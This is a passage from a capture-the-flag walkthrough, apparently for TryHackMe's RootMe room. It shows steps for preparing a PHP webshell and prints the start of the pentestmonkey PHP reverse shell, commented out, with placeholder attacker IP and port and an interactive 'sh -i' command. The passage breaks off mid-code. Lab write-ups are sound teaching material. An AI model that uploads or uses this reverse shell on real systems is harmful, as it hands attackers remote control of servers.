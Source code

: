 ![](THM_rrootme_Screenshot_2.png)

- ___Step 3.1.:___ Go to Reverse Shell Generator to prep webshell
- ___Step 3.2.:___ prep shelly.php

```PHP
//<?php
// // php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
// 
// set_time_limit (0);
// $VERSION = "1.0";
// $ip = '<attack_box_ip>';
// $port = <port>;
// $chunk_size = 1400;
// $write_a = null;
// $error_a = null;
// $shell = 'uname -a; w; id; sh -i';
// $daemon = 0;
// $debug = 0;
// 
// if (function_exists('pcntl_fork')) {
// 	$pid = pcntl_fork();
// 	
// 	if ($pid == -1) {
// 		printit("ERROR: Can't fork");
// 		exit(1);
// 	}
// 	
```